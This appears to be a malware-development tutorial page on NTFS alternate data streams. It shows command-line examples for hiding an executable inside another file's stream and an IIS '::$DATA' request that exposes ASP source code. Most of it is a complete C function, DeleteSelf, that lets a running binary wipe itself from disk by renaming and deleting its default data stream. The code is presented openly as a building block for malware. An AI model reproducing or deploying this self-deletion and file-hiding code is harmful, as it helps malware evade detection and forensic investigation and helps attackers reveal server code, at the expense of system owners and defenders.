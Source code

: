 # Self Deleting Malware

## Introduction

A not so well known feature of the New Technology File System (NTFS) is the support for multiple _<mark style="color:yellow;">**data streams**</mark>_. Alternate data streams allow files to contain more than one stream of data. It's purpose was primarily to allow compatibility with Macintosh systems.

Every file has at least one data stream:  **In Windows, the default data stream is** <mark style="color:yellow;">**:$DATA**</mark>.

## Data Streams

Since **:$DATA** exists on every file, it can be an alternate way to access any file. Any applications that creates, looks at, or depends on the end of a file name (or extension) should be aware of alternate data streams. <mark style="color:yellow;">**Unsanitized user input could use the :$DATA stream to change the behavior of the program.**</mark>

### Creating Alternate Data Streams

* `C:\> type C:\windows\system32\notepad.exe > c:\windows\system32\calc.exe:notepad.exe`
* `C:\> start c:\windows\system32\calc.exe:notepad.exe`

### Accessing the :$DATA Alternate Data Stream

* `C:\> start c:\textfile.txt::$DATA`

### Exploiting Data Stream to show ASP code

In some vulnerable versions of IIS, we can exploit the data stream extension to view source code.

Normal Access:

* ```
  http://www.alternate-data-streams.com/default.asp
  ```

Exploited to show code:

* ```
  http://www.alternate-data-streams.com/default.asp::$DATA
  ```



## Deleting a Running Binary

As we know it is not possible to delete a running binary on Windows, since deleting a file requires that no other process is using it.

One way to get around this is by <mark style="color:yellow;">**renaming**</mark>** the default data stream **<mark style="color:yellow;">**:$DATA**</mark>** to another name that represents a new data stream.**&#x20;

We then can we can delete the newly renamed data stream, causing the binary to be wiped from disk.

### Retrieve File Handle

We first need to retrieve the file handle of the binary.

The file handle can be retrieved using the **`CreateFile`** WinAPI. The [access flag](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-mask) must be set to **`DELETE`** to provide file deletion permissions.

```c
hFile = CreateFileW(
        L"deletion.exe",
        DELETE | SYNCHRONIZE,
        FILE_SHARE_READ,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
);
```

### Renaming The Default Data Stream

We can rename the default data stream of the running binary with [SetFileInformationByHandle](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileinformationbyhandle) WinAPI function with the [FileRenameInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_rename\_info) flag. There is a list of enum values that we can choose from.



`FILE_INFO_BY_HANDLE_CLASS Enum:`

```c
typedef enum _FILE_INFO_BY_HANDLE_CLASS {
  FileBasicInfo,
  FileStandardInfo,
  FileNameInfo,
  FileRenameInfo, // This is the flag we will use to change the filename.
  ...
  }
```

`SetFileInformationByHandle` WinAPI function:

```c
if (!SetFileInformationByHandle(
        hFile,
        FileRenameInfo,
        &pRename,
        sRename
        )) {

   wprintf(L"SetFileInformationByHandle Failed with Error %d", GetLastError());
   return -1;
};

```



<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Delete The Data Stream

We then delete the  `:$DATA` stream to erase the file from the disk.&#x20;

To do so, the same **`SetFileInformationByHandle`** WinAPI will be used, with a different flag, [FileDispositionInfo](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-file\_disposition\_info) This flag marks the file for deletion when its handle is closed.

We will close and reopen the previous handle.

## Final Code

{% code fullWidth="true" %}
```c

// The new data stream name
#define NEW_STREAM L":Foobar"


BOOL DeleteSelf() {


	WCHAR                       szPath [MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete                = { 0 };
	HANDLE                      hFile                 = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO           pRename               = NULL;
	const wchar_t*              NewStream             = (const wchar_t*)NEW_STREAM;
    SIZE_T			            StreamLength	         = wcslen(NewStream) * sizeof(wchar_t);
	SIZE_T                      sRename               = sizeof(FILE_RENAME_INFO) + StreamLength;


    // Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
  
    // Cleaning up some structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//----------------------------------------------------------------------------------------
    // Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
	Delete.DeleteFile = TRUE;
  
    // Setting the new data stream name buffer and size in the 'FILE_RENAME_INFO' structure
	pRename->FileNameLength = StreamLength;
	RtlCopyMemory(pRename->FileName, NewStream, StreamLength);

	//----------------------------------------------------------------------------------------

    // Used to get the current file name
	if (GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		printf("[!] GetModuleFileNameW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	//----------------------------------------------------------------------------------------
    // RENAMING
  
    // Opening a handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

    // Renaming the data stream
	if (!SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------
    // DELETING
  
    // Opening a new handle to the current file
	hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	wprintf(L"[i] DELETING ...");
	
    // Marking for deletion after the file's handle is closed
	if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	wprintf(L"[+] DONE \n");

	CloseHandle(hFile);

	//----------------------------------------------------------------------------------------

    // Freeing the allocated buffer
	HeapFree(GetProcessHeap(), 0, pRename);

	return TRUE;
}

```
{% endcode %}





## Hidden Files Misc

We can confirm that the files are in fact hidden when viewing the explorer

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
